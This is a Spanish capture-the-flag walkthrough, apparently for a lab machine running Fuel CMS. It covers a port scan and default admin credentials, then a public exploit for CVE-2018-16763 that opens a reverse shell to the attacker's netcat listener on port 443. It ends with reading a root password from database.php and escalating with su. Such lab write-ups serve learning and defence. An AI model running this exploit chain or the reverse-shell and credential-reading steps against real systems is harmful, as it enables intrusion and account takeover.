 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.176.20 -oN escaneo
```
![alt text](image.png)

Vemos que que está corriendo un servidor apache/2.4.18 en una máquina ubuntu, además podemos ver que en el robots.txt podemos encontrar una carpeta llamada "fuel". Pero antes vamos a ver que contiene la web.
![alt text](image-1.png)
![alt text](image-2.png)
![alt text](image-3.png)

Vemos que nos indica que está usuando un CMS llamado Fuel, que su panel de administrador está en la carpeta fuel y con las credenciales "admin" de usuario y de contraseña "admin". Pero al ser un cms, vamos a ver si podemos encontrar un exploit para bypassearlo y generarnos una shell.

`Linx del exploit:` https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated

Este exploit está asignado al `CVE-2018-16763`. Que nos permite realizar un `RCE` (Remoste Comand Execution).

```
git clone https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated.git
```
![alt text](image-4.png)

Una vez lo tenemos descargado, vamos a ejcutarlo.

```
python Fuel-Updated.py http://10.10.176.20 10.9.239.22 443
```
![alt text](image-5.png)

En otra terminal nos pondremos escuchando por `netcat` para poder generarnos la shell.
```
nc -lnvp 443
```
![alt text](image-6.png)

Una vez tengamos la shell vamos a realizar un tratamiento de la tty para evitar problemas con los comandos.
```
script /dev/null -c bash
Cntl + Z
stty  raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```

Una vez lo tengamos vamos a ver si podemos encontrar las flags. Nos situamos a la carpeta del usuario y encontraremos la flag de usuario.
```
cd /home/www-data
cat flag.txt
```
![alt text](image-7.png)

Una vez tengamos la de usuario, vamos a por la de administrador. Retomando la página web, en la parte que nos escribe en el paso dos, que había un archivo llamado database.php que contenia toda la información de los usuarios.
```
cd /var/www/html/fuel/application/config
cat database.php
```

Aquí nos va a mostrar la contraseña del usuario `root` que es `mememe`.
![alt text](image-8.png)

Por lo tanto, solo nos quedará cambiar de usuario.
```
su root
password: mememe
```
![alt text](image-9.png)

Una vez ya somos root, vamos a la carpeta `/root` y mostramos la flag.
```
cat root.txt
```
![alt text](image-10.png)